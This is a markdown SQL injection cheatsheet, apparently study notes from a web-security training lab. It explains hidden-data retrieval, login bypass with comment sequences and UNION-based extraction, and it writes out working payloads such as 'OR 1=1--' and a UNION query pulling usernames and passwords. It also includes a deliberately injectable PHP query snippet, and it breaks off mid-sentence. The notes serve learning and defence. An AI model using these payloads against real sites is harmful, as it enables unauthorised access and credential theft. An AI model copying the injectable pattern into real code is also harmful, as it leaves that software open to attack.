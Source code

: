 
# SQL Injection Cheatsheet

## SQL Injection examples

**1. Retrieving hidden data** - Where we can modify a SQL query to return additional results.

Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

```
https://insecure-website.com/products?category=Gifts
```

This causes the application to make a SQL query to retrive details of the relevant products from the database:

```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**1.1 How is the attack conducted**

If the application doesn't implement any defenses against SQL injection, the attacker can construct an attack like:

```
https://insecure-website.com/products?category=Gifts'--
```

Which will result in the SQL query

```SQL
SELECT * FROM products WHERE category = 'Gifts' --' And released = 1
```

As the double-dash sequence `--` is a comment indicator in SQL, meaning that everything behind the double-dash will be interpreted as a comment, effectively eliminating the condition of the query.

Going further, an attacker can cause the application to display all the products in any category, including categories that they dont know about"

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

This will result in the SQL query:

```SQL
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--'And released = 1
```

The query will return all items where either the category is `Gifts` or `True`.


**1.3 Note when using the condition OR 1=1**

This can be dangerous because it can lead to unexpected consequences, such as accidental deletion or modification of data.

```php
$sql = "SELECT * FROM users WHERE id = ". $id;
$result = mysqli_query($conn, $sql);
$sql = "UPDATE users SET email = '$new_email' WHERE id = " . $id;
mysqli_query($conn, $sql);
```

**2. Subverting application logic** - Where you can change a query to interfere with the application's logic.

Consider an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

```sql
SELECT * FROM users where username = 'wiener' AND password = 'bluecheese'
```

**2.1 How is the attack conducted**

Here, an attacker can log in as any user without a password simply by using SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query.

```sql
SELECT * FROM users where username = 'administrator' --' AND password = ''
```

This query returns the user whose username is `administrator` and successfully logs the attacker in as that user.

**3. Retrieving data from other database tables**

In cases where the results of a SQL query are returned within the application's responses, an attacker can leverage a SQL injection vulnerability to retrieve data from other tables within the database. This is done using the `UNION` keyword, which lets you execute an additional `SELECT` query and append the results to the original query.

```SQL
SELECT name, description FROm products WHERE category = 'Gifts'
```

Then the attacker can submit the input:

```sql
' UNION SELECT username, password FROM users--
```

This is called SQL injection UNION attacks.

**3.1 How is the attack conducted**

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns a and b in table1 and columns c and d in table2.

FOR a `UNION` query to work, two key requirements must be met:

* The individual queries must return the same number of columns.
* The data types in each columns must be compatible between the individual queries.

To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:

**1. How many columns are being returned from the original query?**

**2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query**

### To determine how many columns are being returned, there are 2 possible methods.

**ORDER BY**, we can use a series of `ORDER BY` clauses to check until the specified column index return error. Supposed we have the following URL:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts
```

We can append the `Order by` clause until error occur

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts'ORDER BY 2--
```

BurpSuite can also be used by sending the request to the repeater and modify the request:

```
GET /filter?category=Gifts'+ORDER+BY+2-- HTTP/2
```

**UNION SELECT NULL**, we can use a series of `SELECT NULL` clause to do the same:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts%27UNION%20SELECT%20NULL,%20NULL,%20NULL--
```

We can again use BurpSuite for this task

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,+NULL,+NULL-- HTTP/2
```

**Note that SELECT NULL is used until the page return a valid response, while ORDER BY is used until the page return an error**

### To determine what is the type of the column that are being returned, we can use the UNION SELECT.

Supposed we have the following URL:

```
https://0a36004504c2bf7f871908a8009d00bc.web-security-academy.net/filter?category=Gifts%27UNION%20SELECT%20NULL,%20NULL,%20NULL--
```

We dont actually know what 
